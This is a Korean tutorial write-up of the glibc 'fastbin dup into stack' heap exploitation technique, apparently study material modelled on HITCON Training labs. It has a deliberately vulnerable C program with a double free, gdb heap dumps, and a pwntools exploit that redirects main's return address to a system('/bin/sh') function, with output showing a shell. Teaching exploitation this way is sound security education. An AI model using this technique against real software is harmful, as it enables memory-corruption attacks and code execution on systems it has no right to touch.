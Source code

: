# **fastbin-dup_into_stack**

## **Condition**

* 공격자에 의해 동일한 크기의 Fast Chunk의 할당과 해제가 자유로워야 한다.
* 공격자에 의해 해제된 Fast Chunk를 한 번 더 해제할 수 있어야 한다.(Double Free Bug)
* 공격자에 의해 할당된 Fast Chunk 영역에 값을 저장할 수 있어야 한다.
* 할당 받고자 하는 Stack 영역에 해제된 Fast Chunk의 크기 값이 저장되어 있어야 한다.

## **Exploit Plan**

1. 동일한 크기의 Fast Chunk(A, B, C) 3개 생성한다.
1. 첫 번째 Fast Chunk(A) 해제한다.
1. 두 번째 Fast Chunk(B) 해제한다.
1. 첫 번째 Fast Chunk(A) 해제한다
1. 이전과 동일한 크기로 힙을 할당하고 해당 Chunk 영역에 "Stack 영역 주소 값 - prev_size 공간(0x8)" 쓴다.
1. 동일한 크기로 Fast Chunk 2개 생성한다.
1. 다음에 할당하는 영역에 원하는 값 쓴다.
    * 할당된 영역은 "Stack 영역의 주소 값 + 0x8" 영역

A -> B -> A 로 해제하는 이유는 동일한 공간을 연속으로 해제하는 경우 double free or corruption이 발생하기 때문이다.

5번째에 동일한 크기로 힙을 할당하는 경우 첫 번째 A가 할당되는데 여기에 값을 쓸 수 있다면 Fake Chunk로 조작이 가능하다.

![fastbin_dup_malloc](/Resources/img/fastbin_dup_malloc.png)

원래 세 번째 A의 FD 값에는 아무 값도 없기 때문에 다음 청크가 없었지만, 첫 번째 A가 할당되면서 FD, BK 부분이 데이터 영역으로 변했고, Fake Chunk 값을 쓰면 세 번째 A의 FD가 변조된다.  

Fake Chunk의 조건

* 이전 Chunk의 Size와 Fake Chunk의 Size가 동일해야 함
* 우리가 변조하고자 하는 주소보다 작은 주소에 위치해야 함

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void call_me(){
       system("/bin/sh");
}

int main()
{
        long stack_var = 0x0;
        scanf("%ld",&stack_var);
        printf("Stack_var : %p\n",&stack_var);

        char *buf1 = malloc(112);
        char *buf2 = malloc(112);
        char *buf3 = malloc(112);

        free(buf1);
        free(buf2);
        free(buf1);

        char *buf4 = malloc(112); 
        char *buf5 = malloc(112);

        scanf("%8s",buf4);

        char *buf6 = malloc(112); 
        char *buf7 = malloc(112);
        read(0,buf7,112);  
}
```

buf1을 2번 Free 후 buf4에 scanf로 입력받는다.  
Tail buf1의 fd는 Null이지만 현재 buf4로 malloc을 해준 상태로 Tail의 fd를 조작할 수 있다.

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602820 --> 0x4141414141414141 (invaild memory)
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x6029a0 (size : 0x20660) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

Fast Chunk의 크기가 동일해야 하므로 Stack 내 128(0x80)이 존재하는 부분을 확인한 후 해당 위치의 - 0x8 한 위치를 입력한다.(Chunk의 시작)
buf4에 stack_var - 0x8 주소(0x7ffe2d26fa38)을 입력한다.  
0x7ffe2d26fa48부터 User Data이며 read로 입력받도록 만들었다.

```
gdb-peda$ x/4x 0x7ffe2d26fa38
0x7ffe2d26fa38:	0x0000000000400783	0x0000000000000080
0x7ffe2d26fa48:	0x000000000040080d	0x00007ffe2d26fa7e

gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x112a420 --> 0x7ffe2d26fa38 --> 0x40080d (size error (0x415d5b08c48348e8)) --> 0xc35f415e415d415c (invaild memory)
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x112a5a0 (size : 0x20a60) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

read를 통해 main의 return 값을 변조하여 call_me로 분기가 가능하다. 

```
gdb-peda$ x/24gx $rbp-0x48
0x7ffc9c05d7d8:	0x00000000004007b5  0x0000000000000080 <- Chunk Header
0x7ffc9c05d7e8:	0x4141414141414141  0x4141414141414141 <- User Data
0x7ffc9c05d7f8:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d808:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d818:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d828:	0x00000000004006b6  0x000000000000000a

gdb-peda$ x/2x $rbp
0x7ffc9c05d820:	0x4141414141414141	0x00000000004006b6 <- ret
```

## **Exploit Code**

```python
from pwn import *

call_me = 0x4006b6
p = process('./fastbin_dup')
#gdb.attach(p)
p.sendline("128")  # Set Chunk Size in Stack
stack_addr = int(p.recvline().split(' ')[2],16)
log.info('Stack Addr : ' + hex(stack_addr)) 
p.sendline(p64(stack_addr - 0x8)) # size - 0x8(Chunk)
#raw_input('1')
p.sendline("A"*0x40 + p64(call_me)) # Modulate Stack

p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/fastbin# python exploit.py 
[+] Starting local process './fastbin_dup': pid 4442
[*] Stack Addr : 0x7ffc3ed4ffc0
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**References**  
<https://www.lazenca.net/display/TEC/fastbin_dup_into_stack>  
<https://bachs.tistory.com/entry/HITCON-Training-lab12-Fastbin-Attack?category=961837>